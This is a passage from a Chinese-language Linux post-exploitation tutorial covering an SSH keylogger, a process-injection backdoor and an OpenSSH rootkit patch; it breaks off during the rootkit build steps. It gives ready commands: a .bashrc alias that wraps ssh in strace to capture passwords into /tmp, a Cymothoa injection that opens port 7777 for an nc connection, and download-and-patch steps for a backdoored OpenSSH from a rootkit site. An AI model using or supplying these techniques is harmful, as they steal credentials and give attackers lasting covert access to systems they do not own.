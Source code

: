 0x04 SSH keylogger
=====

vim当前用户下的.bashrc文件,末尾添加

```
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh'

```

然后使配置生效

```
source .bashrc

```

当本地su或者ssh的时候,就会在tmp下面记录(无论失败成功都有记录)

![p3](http://drops.javaweb.org/uploads/images/72a7f32abc61945fdb919f71bd092f9ad774e8ea.jpg)

0x05 Cymothoa_进程注入backdoor
=====

很赞的点是注入到的进程,只要有权限就行,然后反弹的也就是进程相应的权限(并不需要root那样),当然进程重启或者挂了也就没了.当然动作也是很明显的。

线程注入：

```
./cymothoa -p 2270 -s 1 -y 7777

```

![p4](http://drops.javaweb.org/uploads/images/d40b6bb83559c8c646c0f955ef88188a7a509a05.jpg)

```
nc -vv ip 7777

```

0x06openssh_rookit
=====

下载地址：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)

先patch

```
wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
tar zxvf openssh-5.9p1.tar.gz
cp sshbd5.5p1.diff openssh-5.9p1/
cd openssh-5.9p1
patch < sshbd5.9p1.diff

```

安装依赖

```
yum install zlib-devel
yum install openssl-devel
yun install pam-devel
yun install krb5-lib(没安装)

```
